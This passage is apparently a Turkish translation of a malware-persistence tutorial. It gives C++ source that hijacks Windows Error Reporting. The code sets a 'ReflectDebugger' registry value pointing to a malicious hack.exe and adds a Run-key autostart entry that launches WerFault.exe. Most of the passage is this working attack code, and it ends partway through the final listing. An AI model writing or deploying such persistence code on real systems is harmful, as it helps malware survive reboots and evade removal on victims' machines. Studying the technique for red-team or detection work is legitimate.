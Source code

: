 Ardından, "kötü" uygulamam ile bir kayıt defteri anahtar değeri oluşturan betiği oluşturuyoruz:    

```cpp
int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // kötü amaçlı uygulama
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // ele geçirilen uygulama
  const char* wf = "WerFault.exe -pr 1";

  // kötü amaçlı uygulamayı ayarla
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // yeni bir kayıt defteri anahtarı oluştur
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegCloseKey(hkey);
  }
}
```

Ayrıca, kalıcılık için [klasik yöntemlerden birini](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) kullandım:     

```cpp
// başlangıç
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // yeni bir kayıt defteri anahtarı oluştur
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
  strlen(wf));
  RegCloseKey(hkey);
}
```

Sonuç olarak, nihai kaynak kodu şu şekilde görünmektedir (`pers.cpp`):    

```cpp
/*
pers.cpp
WerFault.exe ile Windows kalıcılığı
yazar: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/02/malware-pers-18.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // kötü amaçlı uygulama
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // ele geçirilen uygulama
  const char* wf = "WerFault.exe -pr 1";

  // kötü amaçlı uygulamayı ayarla
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // yeni bir kayıt defteri anahtarı oluştur
```